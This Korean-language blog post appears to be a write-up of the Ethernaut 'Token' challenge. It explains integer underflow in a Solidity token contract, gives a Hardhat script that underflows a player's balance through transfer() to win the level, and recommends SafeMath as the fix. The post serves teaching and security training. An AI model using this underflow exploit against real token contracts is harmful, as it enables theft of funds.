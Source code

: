 +++
title = "Token"
date = "2023-08-22"
+++


---

> My Solutions: [github](https://github.com/c0np4nn4/EtherStudy/tree/main/ethernaut_solution)

---

# TL;DR
> ***Under/Overflow*** 문제입니다.

<center>
<img alt="main image" src="https://images.unsplash.com/photo-1568054491179-fbc8c8d40c8c?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1470&q=80" />
</center>

---

# Introduction
프로그램 상에서 연산을 할 때 [Integer Under/Overflow](https://en.wikipedia.org/wiki/Integer_overflow)는 잘 알려진 산술 에러입니다.
[Solidity](https://soliditylang.org/)언어에서도 이 에러는 여전히 존재합니다.
`Token` 컨트랙트는 이러한 문제점을 잘 보여줍니다.

---

# Problem Detail
## Goal
문제 목표를 확인하기 위해 `TokenFactory` 컨트랙트의 `validateInstance()` 함수를 살펴보면 아래와 같습니다.

<center>
<img alt="validateInstance" src="../../ethernaut_img/5_token_1.png" />
</center>

`playerSupply`는 `Token`컨트랙트가 배포 될 때, `msg.sender`에게 부여되는 초기값입니다.
즉, `player`가 처음에 받은 값보다 더 많은 값을 갖게 되면 성공합니다.

## Contract
스마트 컨트랙트를 살펴보면 아래와 같습니다.

<center>
<img alt="validateInstance" src="../../ethernaut_img/5_token_2.png" />
</center>

함수 `transfer()`를 자세히 보면, mapping `balances`에 연산을 할 때 문제가 생길 수 있음을 알 수 있습니다.

---

# Exploit
본격적으로 `exploit`을 진행하기 전에 `uint == uint256`에 관해 짧게 짚고 넘어가겠습니다.
`uint256`은 `256-bit`크기의 정보를 *unsigned integer* 로 표현하는 자료형입니다.
따라서, 아래와 같이 `최솟값`과 `최댓값`을 가짐을 알 수 있습니다.
> `최소값`: $0$
> 
> `최대값`: $2^{256} - 1 \approx 1.15792 \times 10^{79}$

## Strategy
초기 값은 `balances[player] == 20` 이므로, `value == 21`로 하여 ***Underflow*** 를 일으켜서 문제를 해결할 수 있습니다.

## Code
아래는 `Hardhat`을 이용하여 실행한 `token.js` 입니다.
코드 실행 환경은 [레포](https://github.com/c0np4nn4/etherstudy)를 확인해주시기 바랍니다.

```js
const { ethers } = require('hardhat');

async function main() {
  const [owner, player] = await ethers.getSigners();

  console.log("\n[0] original owner: ", owner.address);
  console.log("[0] player: ", player.address);

  console.log("\n[1] deploy TokenFactory");
  const Factory = await ethers.getContractFactory("TokenFactory");
  const factory = await Factory.connect(owner).deploy();
  await factory.deployed();
  console.log("---- TokenFactory address: ", factory.address);

  console.log("\n[2] create a Token instance");
  const receipt = await factory.connect(player).createInstance(player.address);
  const instance_address = (await receipt.wait()).events[0].args[0];
  const token = await ethers.getContractAt("Token", instance_address, owner);
  console.log("---- factory balance:   ", (await token.balanceOf(factory.address)).toString());
  console.log("---- owner balance:     ", (await token.balanceOf(owner.address)).toString());
  console.log("---- player balance:    ", (await token.balanceOf(player.address)).toString());

  console.log("\n[3] invoke Underflow");
  await token.connect(player).transfer(owner.address, 21);
  console.log("---- factory balance:   ", (await token.balanceOf(factory.address)).toString());
  console.log("---- owner balance:     ", (await token.balanceOf(owner.address)).toString());
  console.log("---- player balance:    ", (await token.balanceOf(player.address)).toString());

  console.log("\n[4] validate solved");
  const res = await factory.validateInstance(token.address, player.address);

  if ((await res.wait()).events[0].args[0] == true) {
    console.log("[+] Done!");
  } else {
    console.log("[+] Fail...");
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});


```

## Result
실행 화면은 아래와 같습니다.

<center>
<img alt="result" src="../../ethernaut_img/5_token_3.png" />
</center>

`player` 는 초기에 `20`만큼의 토큰을 갖고 있었고, `transfer()`함수를 이용해 `21`만큼의 토큰을 `owenr`에게 보내고자 했습니다.
***Underflow*** 가 발생하 여`require()` 문에 의한 검증도 우회하게 되었으며, `player`가 `uint`의 최대값을 가짐으로써 손쉽게 문제를 해결했습니다.

---

# Conclusion
`Solidity` 상에서 연산을 하는 경우, 충분히 주의를 기울이지 않는다면 위와 같은 에러가 발생할 수 있습니다.
***Under/Overflow*** 와 같은 arithmetic error에 대응할 수 있도록, `ethernaut`을 제작한 `openzepplin`에서 [SafeMath](https://github.com/ConsenSysMesh/openzeppelin-solidity/blob/master/contracts/math/SafeMath.sol)라는 모듈을 제공하기도 합니다.
따라서 이러한 모듈을 적극적으로 활용하는 것이 도움이 될 수 있습니다.

<script src="https://utteranc.es/client.js"
        repo="c0np4nn4/utterance_repo"
        issue-term="pathname"
        label="utterances"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>

